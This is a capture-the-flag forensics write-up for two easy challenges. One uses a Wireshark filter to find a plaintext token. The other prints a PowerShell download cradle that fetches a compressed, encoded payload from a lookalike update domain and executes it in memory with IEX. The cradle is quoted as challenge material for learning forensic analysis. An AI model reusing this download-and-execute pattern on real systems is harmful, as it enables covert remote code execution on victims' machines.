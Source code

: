 ## Plaintext Tleasure - very easy
- Extract the attached `zip` file for the challenge and open the `pcap` file with any sniffing tool like Wireshark.
```
wireshark capture.pcap
```
- Using this filter to display all `POST` requests:
```
http.request.method == "POST"
```
- You will find this token and By following the `HTTP` stream:

![Plain_token.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Forensics%20images/Plain_token.png)
- We will get the flag.

![plain_flag.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Forensics%20images/plain_flag.png)

---
## Alien Cradle - very easy
- Extract the attached `zip` file for the challenge, and just display the file content, you will get the flag but you will need to concatenate that.

```bash
$ cat cradle.ps1 
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();   
```
